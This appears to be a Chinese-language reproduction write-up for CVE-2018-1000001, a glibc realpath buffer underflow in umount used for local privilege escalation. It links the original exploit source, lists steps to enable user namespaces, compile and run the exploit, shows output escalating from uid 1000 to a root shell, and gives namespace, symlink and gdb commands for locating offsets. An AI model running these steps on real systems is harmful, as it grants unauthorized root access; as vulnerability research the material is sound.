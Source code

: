   

#### b.EXP源码

​	复现环境exp: 见附件cve-2018-1000001-01.md

​	原作者exp: [exp.c](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c)

#### c.复现步骤

- 搭建复现环境，与POC中的环境相同

- 步骤一 设置unprivileged_userns_clone权限

  ```shell
   # 将unprivileged_userns_clone设置为1(默认为0)
   root$ echo 1 > /proc/sys/kernel/unprivileged_userns_clone
  ```

- 步骤二  编译exp文件

  使用的是修改过的exp，具体修改了加载mo的目录和execl的相对偏移以适配复现环境

  ```shell
  gcc exp.c -o exp	
  ```

- 步骤三 执行exp

  ```shell
  debian@debian:~/Desktop/work$ id
  uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),113(lpadmin),118(scanner)
  debian@debian:~/Desktop/work$ ./exp
  ./exp: invoked as SUID, invoking shell ...
  root@debian:~/Desktop/work# id
  uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),113(lpadmin),118(scanner),1000(debian)
  root@debian:~/Desktop/work# 
  
  ```

- 如何获取util-linx.mo文件的相对路径

  ```shell
  # 定位到_nl_find_msg调用，找到第一个参数的值
  char *_nl_find_msg (struct loaded_l10nfile *domain_file,
  		    struct binding *domainbinding, const char *msgid,
  		    int convert, size_t *lengthp)
       internal_function;
  
  
  # Terminal 1
  /usr/bin/unshare -m -U --map-root-user /bin/bash
  mount -t tmpfs tmpfs /tmp
  cd /tmp
  chmod 00755 .
  mkdir -p -- "(unreachable)/tmp" "(unreachable)/tmp/xxx/C.UTF-8.utf8/LC_MESSAGES" "(unreachable)/x" 
  ln -s ../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A "(unreachable)/tmp/down"
  echo $$
  46416
  
  
  # Terminal 2
  cd /proc/46416/cwd
  gdb
  file /bin/umount
  set args --lazy down 
  set env LC_ALL=C.UTF-8
  ```